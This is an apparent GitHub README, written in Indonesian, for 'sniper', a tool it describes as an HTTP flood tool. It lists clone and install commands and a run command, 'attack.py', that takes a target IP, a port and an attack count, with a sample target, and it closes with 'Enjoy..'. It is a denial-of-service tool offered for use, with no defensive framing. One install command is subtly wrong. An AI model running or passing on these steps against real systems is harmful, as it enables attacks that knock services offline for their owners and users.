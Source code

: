 # sniper

<b>Apa itu SNIPER?</b>
<br />
Tool untuk melakukan HTTP Flood.
<br />
<br />
<b>INSTALL</b>
<br />
$ git clone https://github.com/wendev89/sniper.git<br />
$ cd sniper<br />
$ pip install requirements.txt<br />

Masalah <b>"pip command not found"</b> itu artinya <b> pip </b> belum diinstall<br />

$ apt install python-pip
<br />
<br />
<b>RUN</b>
<br />
$ python attack.py IPTARGET PORT JUMLAH_SERANGAN
<br />
<br />
<b>CONTOH</b><br />
$ python attack.py 123.45.67.89 80 3000
<br />
<br />
<b>Enjoy..</b>
